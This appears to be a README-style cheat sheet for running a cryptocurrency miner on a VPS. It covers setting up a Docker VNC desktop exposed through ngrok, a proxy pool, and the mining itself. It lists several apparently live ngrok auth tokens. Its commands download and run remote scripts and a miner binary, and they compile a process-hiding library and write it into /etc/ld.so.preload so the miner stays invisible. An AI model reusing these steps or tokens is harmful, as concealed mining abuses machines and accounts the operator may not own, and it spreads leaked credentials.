 # creat vps docker vnc : 
- install docker : apt install -y apt-transport-https ca-certificates curl software-properties-common && curl -fsSL https://download.docker.com/linux/ubuntu/gpg | gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg && echo "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | tee /etc/apt/sources.list.d/docker.list > /dev/null && apt update && apt install -y docker-ce docker-ce-cli containerd.io && usermod -aG docker $USER && service docker restart
- docker run -it --rm -p 6080:80 -p 5900:5900 dorowu/ubuntu-desktop-lxde-vnc
- wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz && tar -xf ngrok-v3-stable-linux-amd64.tgz && ./ngrok config add-authtoken 2eqKuowsYAQzDkn0uAG8WWxxfTy_4MWVSLvDjfSCWgPsQVbm5
- ./ngrok http 6080
  
   token ngrok :
- 2TtAcvy5faRWDPlmnbt2tauuMfy_J8rCNerKtLqLeJqrMTGY
- 2TY9j0ZPVtJfGB3HQPVxoIAcKR6_2sqBzNTKDZnacRm9hJtFK
- 2U9omfblkr1JR4VhgmIQwk0XkaP_2MRDsYsLaWzj2ouhqVCaY
- 2UEc6WUEbjbA3JpjmWfem5IZFzK_6EyQFfMJ1amaocetmur7q
- 2UbN0YLLgdPR7xDmmkMPtaTMxRd_7YiSYjH3rcoXKt5goPE6Q
- 2eqK7m0aHI98zyKc5kutUVwk5xe_44hNpSjdL1HSGtftH5dso
- 2eqKuowsYAQzDkn0uAG8WWxxfTy_4MWVSLvDjfSCWgPsQVbm5

  create proxy pool :
  kill port : apt-get install psmisc -y && fuser -k 4050/tcp
- wget https://raw.githubusercontent.com/bulboni/minware/main/proxm.py && nohup python3 proxm.py
  
  step mining :
- hide miner no gcc: git clone https://github.com/cihuuy/libn && cd libn && apt install gcc -y && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
- hide miner wiht gcc: git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
  download and runing miner 2 core :
wget https://raw.githubusercontent.com/bulboni/sumocn/main/durex && chmod +x durex && ./durex --algorithm RandomX --pool 158.69.251.105:4050 --wallet SumipBJ7rroF2VmkLaT2KwCL738782k8yMYFwYuU34br65KDBAj6Eg91SXuNxqfB4P3m2pY5Y1ay9YjWpoqszR37PhpeamiMK2Zc3hSSyb6Y4p --password sx1 --cpu-threads 6 --disable-gpu
